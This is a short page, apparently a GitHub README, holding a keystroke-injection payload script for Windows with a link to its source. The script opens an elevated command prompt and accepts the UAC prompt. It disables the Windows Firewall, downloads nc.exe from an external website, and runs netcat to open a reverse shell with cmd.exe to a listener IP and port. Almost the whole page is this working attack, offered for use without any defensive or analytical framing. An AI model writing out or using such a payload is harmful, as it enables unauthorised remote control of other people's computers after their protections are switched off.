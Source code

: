 # PAYLOAD NETCAT DOWNLOAD AND REVERSE SHELL


### This script will:
1. Disable the Microsoft Windows Firewall
2. Download Netcat
3. Run Netcat mode reverse shell (nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe)

```
DELAY 750
GUI r
DELAY 750
STRING powershell Start-Process cmd -Verb runAs
ENTER
DELAY 2050
ALT s
DELAY 2050
ENTER
STRING netsh firewall set opmode disable
ENTER
DELAY 100
STRING powershell Start-BitsTransfer -Source 'https://www.jesusninoc.com/wp-content/uploads/2015/02/nc.exe' -Destination $env:TEMP\nc.exe;
ENTER
DELAY 100
GUI r
DELAY 2050
STRING powershell cd $env:TEMP; .\nc.exe 192.168.1.36 999 -e cmd.exe -d
ENTER
```

* [Source](https://www.jesusninoc.com/02/19/payload-netcat-download-and-reverse-shell/)
